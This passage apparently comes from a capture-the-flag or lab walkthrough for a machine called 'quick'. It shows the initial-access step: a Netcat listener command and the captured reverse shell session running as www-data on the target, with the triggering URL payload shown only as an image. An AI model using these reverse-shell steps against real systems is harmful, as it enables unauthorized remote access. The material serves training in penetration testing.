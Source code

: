 <br>
## Initial access
<br>

#### >> Update the URL with our local IP address
![Alt Text](/img/quick/image4.png)

<strong>Upon pressing enter, the reverse (web)shell should establish a connection to our Netcat listener</strong>
```shell
┌──(kali㉿kali)-[~/Desktop/quick]
└─$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.0.136] from (UNKNOWN) [192.168.0.142] 50894
Linux quick 5.4.0-169-generic #187-Ubuntu SMP Thu Nov 23 14:52:28 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 18:10:58 up  1:51,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
andrew   tty1     -                16:27    1:43m  0.06s  0.03s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
